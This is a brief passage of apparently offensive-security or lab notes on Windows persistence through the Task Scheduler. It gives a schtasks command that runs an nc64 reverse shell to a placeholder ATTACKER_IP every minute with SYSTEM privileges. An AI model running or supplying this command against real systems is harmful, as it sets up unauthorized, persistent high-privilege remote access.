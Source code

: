 #### Task Scheduler
The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler ***allows for granular control over a task***. From the command line, you can use `schtasks` to interact with the task scheduler.

#### Create a task that runs a reverse shell every single minute.
```cmd
schtasks /create /sc minute /mo 1 /tn <taskname> /tr "c:\tools\nc64 -e cmd.exe <ATTACKER_IP> 4449" /ru SYSTEM
```
- `/sc` and `mo`: options indicate that the task should be run every single minute.
- `/ru:` option indicate that the task will run with SYSTEM privileges.